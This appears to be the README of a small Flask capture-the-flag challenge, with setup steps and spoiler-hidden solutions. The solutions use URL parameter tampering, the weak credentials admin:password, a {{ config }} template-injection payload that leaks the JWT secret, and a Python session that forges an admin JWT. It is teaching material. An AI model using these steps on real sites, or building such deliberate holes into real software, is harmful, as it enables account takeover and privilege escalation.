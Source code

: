 # LoginChallenge2022
Mini CTF challenge for the September 2022 Activity Fair

## Install + Setup

### Install Flask

**Windows**

Install Python:

https://www.python.org/downloads/release/python-397/

Set PATH:
- Start > Edit Environment Variables
- Add Python install directory to both System and Environment variables

Check python installed:

```
PS > python --version
```

Install flask and other dependencies:

```
PS > python -m pip install -r requirements.txt
```

**Linux**

```
$ python3 -m pip install -r requirements.txt
```

## Run

### Windows

```
PS > cd .\web\
PS > $env:FLASK_APP = "app"
PS > $env:FLASK_DEBUG = "true"
PS > python -m flask run
```

## Solution

### Part 1


<details>

<summary>Spoilers</summary>

Change the `http://localhost:5000/?loginSuccessful=False` parameter to `True`

OR

Guess the weak credentials `admin`:`password`

</details>

### Part 2


<details>

<summary>Spoilers</summary>

Leak app secret with SSTI, submitting `{{ config }}` as username. This will take you to a page that displays the `JWT_SECRET_KEY` parameter. This key is used to sign JWT cookies.

THEN

Inspect the JWT to see `is_admin` parameter and forge a new cookie, using the following `jwt` library to import the `JWT_SECRET_KEY` as `secret`.

```
$ python
>>> import jwt
>>> token = 'eyJ0....K3FA'
>>> secret = ';nod87b;/dfub6vaz.knib'
>>> jwt.decode(token, secret, "HS256") 
{'fresh': False, 'iat': 1663444862, 'jti': '6b0f4003-7579-41cc-bc30-c0fb9c4e3ef3', 'type': 'access', 'sub': {'is_admin': False}, 'nbf': 1663444862, 'csrf': 'fbcf88b6-684e-42e7-8d7d-1de3fd65b58e', 'exp': 1663445762}
>>> j = jwt.decode(token, secret, "HS256") 
>>> j['sub'] = {'is_admin': True}
>>> jwt.encode(j, secret)
'eyJ0...ncRo'
```

Replace the `access_token_cookie` with this new value and reload the page.

</details>